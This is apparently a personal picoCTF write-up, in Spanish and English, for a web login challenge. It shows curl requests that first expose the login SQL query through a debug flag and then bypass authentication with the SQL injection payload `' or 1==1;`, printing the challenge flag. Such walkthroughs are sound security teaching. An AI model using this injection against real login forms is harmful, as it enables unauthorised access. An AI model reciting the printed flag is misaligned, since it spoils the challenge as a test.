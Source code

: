 ## descripcion
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

## pistas
There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?

Try to think about how the website verifies your login.

![[Pasted image 20240305174811.png]]
## Solution

```
VFlours@win MINGW64 /d/Downloads/notas-hacking (main)
$ curl -s https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=admin&password=password&debug=1"
<pre>username: admin
password: password
SQL query: SELECT * FROM users WHERE name='admin' AND password='password'
</pre><h1>Login failed.</h1>
VFlours@win MINGW64 /d/Downloads/notas-hacking (main)
$ curl -s https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=admin&password=' or 1==1;&debug=1"
<pre>username: admin
password: ' or 1==1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1==1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>
VFlours@win MINGW64 /d/Downloads/notas-hacking (main)





```

utilizando la injeccion sql mostrada haya arriba se puede ingresar poniendola en el password. de forma web
# Logged in!

Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}
## notas

Comandos utilizados:
	1. `-s`: Es una opción que indica a `curl` que funcione en modo silencioso, lo que significa que no mostrará la barra de progreso ni mensajes de estado. Es útil cuando solo queremos los resultados de la solicitud HTTP.
	2. Esta opción `-d` envía datos POST al servidor. Aquí, se están enviando tres parámetros: `username` con valor `admin`, `password` con valor `password`, y `debug` con valor `1`. Estos son los datos que se enviarán al servidor como parte de la solicitud HTTP POST.


injeccion sql es un tipo de tecnica que puede destruir mi base de datos.

Cuando esta el debug en 1 sugiere que el formulario está diseñado para manejar diferentes escenarios dependiendo de si se está realizando una operación de depuración o no. Es importante tener en cuenta cómo se utiliza este parámetro en el backend para comprender completamente su efecto en la aplicación.




## references
